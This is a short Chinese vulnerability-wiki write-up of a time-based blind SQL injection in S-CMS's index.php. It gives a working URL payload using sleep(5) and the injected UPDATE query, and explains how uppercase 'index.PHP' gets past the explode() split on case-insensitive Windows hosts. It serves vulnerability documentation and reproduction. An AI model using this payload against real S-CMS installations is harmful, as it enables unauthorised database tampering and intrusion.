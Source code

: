 S-CMS sql注入漏洞（二）
=======================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

漏洞位置：`index.php`

![](/Users/aresx/Documents/VulWiki/.resource/S-CMSsql注入漏洞(二)/media/rId24.jpg)

跟进函数`splitx()`

    function splitx($a, $b, $c)
    {
        $d = explode($b, $a);
        return $d[$c];
    }

先上**payload**

    http://www.0-sec.org/index.PHP/a'%20where%20if(1,sleep(5),1)%23?action=update_dir

拼凑SQL语句

    update TABLE_config set C_dir='index.PHP/a' where if(1,sleep(5),1)#'

**解释**

**\$\_SERVER\['PHP\_SELF'\]**：获取当前文件的路径

> 如：127.0.0.1/xxe/xml.php =\> /xxe/xml.php

**explode(separator,string,limit)**：分割字符串形成数组

> separator：规定在哪里分割字符串。
>
> string：要分割的字符串。
>
> limit：规定所返回的数组元素的数目。

如果使用`index.php`，结果如下：

    array (size=2)
      0 => string '/index.php/' (length=5)
      1 => string '/a' where if(1,sleep(5),1)#' (length=27)

被截断，但若使用`index.PHP`：

    array (size=1)
      0 => string '/index.PHP/a' where if(1,sleep(5),1)#' (length=39)

前提：Windows系统下不区分文件大小写。

参考链接
--------

> http://pines404.online/2019/10/31/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/S-CMS%E5%AE%A1%E8%AE%A1%E5%A4%8D%E7%8E%B0/
